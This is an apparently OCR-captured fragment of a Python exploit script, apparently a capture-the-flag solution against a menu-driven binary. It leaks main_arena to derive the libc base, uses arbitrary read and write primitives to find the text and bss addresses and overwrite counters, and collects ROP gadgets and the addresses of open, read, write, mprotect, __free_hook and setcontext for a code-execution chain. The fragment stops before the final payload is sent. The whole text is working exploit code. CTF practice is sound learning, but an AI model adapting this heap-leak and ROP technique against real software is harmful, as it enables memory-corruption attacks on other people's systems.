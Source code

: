 ```python
payload += ''

main_arena_off = 0x7f9652abbbe0 - 0x7f9652706000
write_count_off = 0x202034
# debug('b *$reasbe(0xCAD)')

sla('> ','3')
sla('feedback: ','TaQini')
sla('Do you want to keep your feedback? (y/n)\n','n')
# debug('b *$rebase(0x1179)')
sla('> ','4')
ru('feedback: ')
main_arena = uu64(rc(6))
info_addr('main_arena',main_arena)
libcbase = main_arena - main_arena_off
info_addr('libcbase',libcbase)
sla('> ','1')
leak = main_arena + 0x22e900
# leak = main_arena + 0x20
sla('addr: ',hex(leak))
# sla('addr: ',hex(main_arena))
ru('value: ')
text = eval(rc(14))
info_addr('text',text)

main = text + 0x1180
write_count = text+write_count_off
feedback = write_count+4
read_count = write_count-4
info_addr('write_count',write_count)
sla('> ','2')
sla('addr/value: ','%s %s'%(hex(read_count),hex(0xffffffdfffffffdf)))
sla('> ','1')
sla('addr: ',hex(main_arena))
ru('value: ')
bss = eval(rc(14))
info_addr('bss',bss)
sla('> ','2')
sla('addr/value: ','%s %s'%(hex(feedback),hex(0)))

# gadget
prbp = text+0x0000000000000bd0 # pop rbp ; ret
prdi = text+0x0000000000001283 # pop rdi ; ret
prsi = libcbase+0x0000000000022192 # pop rsi ; ret
prdx = libcbase+0x0000000000001b9a # pop rdx ; ret
leave = libcbase+0x0000000000040222 # leave ; ret
ret = libcbase+0x0000000000000280 # ret
syscall = libcbase+0xf0bd5 # syscall
prax = libcbase+0x0000000000038e88 # pop rax ; ret

# func
open = libcbase+libc.sym['open']
read = libcbase+libc.sym['read']
write = libcbase+libc.sym['write']
printf = libcbase+libc.sym['printf']
fgets = libcbase+libc.sym['fgets']
mprotect = libcbase+libc.sym['mprotect']
stderr = libcbase+libc.sym['stderr']
free_hook = libcbase+libc.sym['__free_hook']
setcontext = libcbase+0x45ba5

info_addr('free_hook',free_hook)
info_addr('printf',printf)
```